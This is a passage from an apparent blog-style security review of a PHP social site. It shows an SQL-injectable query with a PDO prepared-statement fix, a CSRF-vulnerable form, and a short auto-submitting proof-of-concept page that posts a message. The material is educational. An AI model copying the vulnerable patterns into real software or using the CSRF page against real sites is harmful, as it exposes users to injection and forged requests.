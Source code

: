 I've found one query where I used `mysql_real_escape_string`.
```php
mysql_query("INSERT INTO post_comment ( post_id, name, comment, date) VALUES ('"
   .$post_id."','".$id."','".mysql_real_escape_string($message)."','"
   .$date."')")or die(mysql_error());
```
Escaping the message is good, but `$id` is also user supplied. I think I can safely say,
that nealy all inputs on that website are vurnable.

SQL Injection is on place 1 on the [OWASP top ten security risks](https://owasp.org/www-project-top-ten/).
Without knowledge it is pretty easy to allow SQL injection and
with little knowledge it is also easy to prevent it.

The cure are prepared statements. These statements prevent the injection of sql.

In PHP prepared statements can be used via [PDO](https://www.php.net/manual/en/book.pdo.php).
The above `mysql_query` can be fixed like this.

```php
$pdo = new PDO('mysql:host=myhost;dbname=social', 'root', 'password');

$statement = $pdo->prepare("UPDATE user SET activated='1' WHERE id=?");
$statement->execute([$_GET['code']]);
```

### Cross-Site Request Forgery (CSRF)

In a CSRF attack, the attacker tries to let the victim submit a malicious web request without knowing it.
This could be to gain access to administration stuff or in my case add a new post to the timeline.

Here a vurnable form:
```php
<form action="index.php" method="post">
    <textarea name="posttext"></textarea>
    <input type="submit" name="posten" value="Posten">
</form>
<?php
if ($_POST["posten"]) {
    $text = $_POST["posttext"];
    if ($text != "") {
        post_schreiben($text, $userid);
    } else echo "<p id='falsered'>Content my not be empty</p>";
}
?>
```

This following website submits the malious form instantly after visiting the page,
the user only have to navigate to this page,
and then the message `INJECT MESSAGE` will be posted on the timeline.
```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://example.org/index.php" method="post">
        <input type="hidden" name="posttext" value="INJECT MESSAGE"/>
        <input type="hidden" name="posten" value="nah"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```
